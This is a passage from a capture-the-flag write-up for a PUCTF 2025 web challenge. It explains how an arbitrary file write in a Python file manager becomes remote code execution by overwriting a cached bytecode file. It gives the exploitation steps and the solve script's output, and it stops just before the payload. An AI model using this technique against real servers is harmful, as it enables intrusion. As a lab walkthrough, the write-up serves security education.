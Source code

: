 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PUCTF-2025/images/Pasted%20image%2020250430213208.png)

Ah ha! Maybe we can **overwrite those bytecode files to gain RCE**? For more details about this, you can read my research: [Python Dirty Arbitrary File Write to RCE via Writing Shared Object Files Or Overwriting Bytecode Files](https://siunam321.github.io/research/python-dirty-arbitrary-file-write-to-rce-via-writing-shared-object-files-or-overwriting-bytecode-files/). In fact, this challenge is based on that research.

## Exploitation

Armed with above information and [my research about Python dirty AFW to RCE](https://siunam321.github.io/research/python-dirty-arbitrary-file-write-to-rce-via-writing-shared-object-files-or-overwriting-bytecode-files/), we can gain RCE via the following steps:
1. Force the application to compile module `utils`'s bytecode file by uploading a dummy file that passes the validations
2. Read the compiled bytecode file
3. Construct our malicious bytecode file by extracting the header section from step 2's bytecode file and append our own marshalled code object
4. Overwrite the compiled bytecode file
5. Execute our written bytecode file by uploading a dummy file again
6. Execute binary `/readflag` and get the flag

> Note: Since the web server is running on Python version 3.11 (Defined in the `app/Dockerfile`), we need to confirm our Python version is also on 3.11. Otherwise our malicious bytecode file's header section will not match to the web server one. We can do so by switching our Python version using tools like [pyenv](https://github.com/pyenv/pyenv).

To automate the above steps, I've written the following Python solve script:

<details><summary markdown="span"><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/PUCTF-2025/Web-Exploitation/NuttyShell-File-Manager)-[2025.04.30|21:45:35(HKT)]
└> python3 solve.py                    
[*] Force compile utils.py bytecode file on the server...
[*] Reading the bytecode file content...
[+] Bytecode file content:
b'\xa7\r\r\n\x00\x00\x00\x00Y\xe5\x11h\x84\x00\x00\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\xf3\x0c\x00\x00\x00\x97\x00d\x00\x84\x00Z\x00d\x01S\x00)\x02c\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x03\x00\x00\x00\xf3\x82\x00\x00\x00\x97\x00t\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00|\x00d\x01\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x005\x00}\x02|\x02\xa0\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00|\x01\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x00d\x00d\x00\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x00S\x00#\x001\x00s\x04w\x02x\x03Y\x00w\x01\x01\x00Y\x00\x01\x00\x01\x00d\x00S\x00)\x02N\xda\x02wb)\x02\xda\x04open\xda\x05write)\x03\xda\x08filePath\xda\x0bfileContent\xda\x04files\x03\x00\x00\x00   \xfa\r/app/utils.py\xda\x08saveFiler\n\x00\x00\x00\x03\x00\x00\x00s\x85\x00\x00\x00\x80\x00\xdd\t\r\x88h\x98\x04\xd1\t\x1d\xd4\t\x1d\xf0\x00\x01\x05 \xa0\x14\xd8\x08\x0c\x8f\n\x8a\n\x90;\xd1\x08\x1f\xd4\x08\x1f\xd0\x08\x1f\xf0\x03\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf1\x00\x01\x05 \xf4\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf8\xf8\xf8\xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 \xf0\x00\x01\x05 s\x0c\x00\x00\x00\x91\x164\x03\xb4\x048\x07\xbb\x018\x07N)\x01r\n\x00\x00\x00\xa9\x00\xf3\x00\x00\x00\x00r\t\x00\x00\x00\xfa\x08<module>r\r\x00\x00\x00\x01\x00\x00\x00s\x1e\x00\x00\x00\xf0\x03\x01\x01\x01\xf0\x06\x02\x01 \xf0\x00\x02\x01 \xf0\x00\x02\x01 \xf0\x00\x02\x01 \xf0\x00\x02\x01 r\x0c\x00\x00\x00'
[*] Modifying the bytecode with our own RCE payload...
[*] Magic number: b'\xa7\r\r\n'
[*] Bit field: b'\x00\x00\x00\x00'
[*] Modification time: Wed Apr 30 16:54:49 2025
[*] Source size: 132
[+] RCE payload:
```